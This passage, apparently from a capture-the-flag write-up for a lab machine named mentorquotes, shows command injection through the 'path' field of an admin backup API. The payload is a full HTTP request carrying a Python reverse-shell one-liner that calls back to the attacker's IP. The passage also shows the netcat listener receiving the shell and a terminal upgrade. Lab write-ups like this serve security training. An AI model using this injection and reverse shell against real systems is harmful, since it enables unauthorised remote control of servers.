 The site could be running in a Docker container with very limited
commands. I know that the host does have Python, so I'll grab a
one-liner from [revshells.com](https://www.revshells.com/) ("Python3
shortest") and drop it in:



    POST /admin/backup HTTP/1.1
    Host: api.mentorquotes.htb
    Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
    Accept: application/json
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://api.mentorquotes.htb/docs
    Origin: http://api.mentorquotes.htb
    Connection: close
    Content-Type: application/json
    Content-Length: 152

    {"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.6\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}



On sending this, I get a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.193 40268
    /app #



I'll do a shell upgrade here:



    /app # ^Z              
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    /app # ls
    Dockerfile        app               python            requirements.txt
    /app # 



`script` isn't on the box, but I don't need the `script` or `python -c`
part because I already got a PTY via the reverse shell I used (look at
the full reverse shell I used above, and check out \[this video\]([What
Happens In a "Shell Upgrade"? -
YouTube](https://www.youtube.com/watch?v=DqE6DxqJg8Q)) for details).

`user.txt` is in `/home/svc`:

